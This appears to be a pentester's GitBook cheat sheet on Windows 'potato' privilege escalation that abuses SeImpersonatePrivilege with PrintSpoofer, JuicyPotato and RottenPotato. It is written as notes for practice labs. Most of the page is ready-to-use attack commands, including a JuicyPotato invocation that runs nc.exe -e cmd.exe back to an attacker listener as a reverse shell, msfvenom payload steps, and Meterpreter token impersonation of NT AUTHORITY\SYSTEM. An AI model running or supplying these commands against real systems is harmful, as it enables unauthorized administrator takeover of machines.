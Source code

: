 # 🥔 Impersonation Attacks

Impersonation attacks allow the attacker to impersonate Services that are running as different users and Impersonate them through the SeImpersonatePrivilege permission on Windows.&#x20;

Enumeration:

```
whoami /priv
```

![](<../../../.gitbook/assets/image (65).png>)

If the SeImpersonatePrivilege is set to Enabled that is our queue to start doing some potato attacks. :D

{% embed url="https://c.tenor.com/G24ZSNHLmRUAAAAM/yahia-potato.gif" %}

We got different appreaches depending on the architechture of the machine we are on.

If the machine is x64, our best strategy is to try PrintSpoofer first since it easier and doesn't require extra steps. If PrintSpoofer doesn't work then we are going to try JuicyPotato. If the architechture is x86 we are going to just try JuicyPotato. If we have a meterpreter session we will first run the command getsystem, if that fails then we will try to use the RottenPotato technique to be able to use the incognito module with more options of impersonation.

Print Spoofer&#x20;

{% embed url="https://github.com/dievus/printspoofer" %}

I am not entirely sure whether this is the binary I use but I am sure it will work either way.&#x20;

* [ ] Generate payload using msfvenom
* [ ] Transfer payload and PrintSpoofer to the machine.&#x20;
* [ ] Start Listener&#x20;
* [ ] Execute command below:

```
PrintSpoofer.exe -c /path/to/payload.ex

or 

PrintSpoofer.exe -i -c cmd.exe 
```

<details>

<summary>Example of PrintSpoofer</summary>

[https://app.gitbook.com/s/IXE4S9y1bygoobC2q1Bz/priv-escalation](https://app.gitbook.com/s/IXE4S9y1bygoobC2q1Bz/priv-escalation) (MeatHead PG)

[https://app.gitbook.com/s/jVmUn0w3TYqT1Knlw8lm/privilege-escalation](https://app.gitbook.com/s/jVmUn0w3TYqT1Knlw8lm/privilege-escalation) (Jacko)

</details>

JuicyPotato&#x20;

This will work for either archs but just keep in mind that depending on which arch the machine is you have to use the respective version of JuicyPotato.&#x20;

{% embed url="https://github.com/ohpe/juicy-potato/tree/master/CLSID" %}

* [ ] Take Note of WIndows Version
* [ ] Take Note of CLSID&#x20;
* [ ] Transfer NC.EXE
* [ ] Transfer JuicyPotato.exe
* [ ] Start Listener
* [ ] Execute command below:

```
Juicy.Potato.x86.exe -t * -l 1337 -c "{03ca98d6-ff5d-49b8-abc6-03dd84127020}" -p C:\Windows\System32\cmd.exe -a "/c C:\path\to\nc.exe -e cmd.exe <ip> <port>"
```

<details>

<summary>Examples of Juicy Potato</summary>

[https://app.gitbook.com/s/ZQl9kALjcfNuYSSZ9equ/privilege-escalation](https://app.gitbook.com/s/ZQl9kALjcfNuYSSZ9equ/privilege-escalation) (AuthBy)

</details>

Change the CLSID to the one you want to impersonate, if that one doesnt work try the next one, this is a guaranteed Administrator.

RottenPotato

Meterpreter Session required.

Steps:

```
execute -cH -f rottenpotato.ex
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"

```
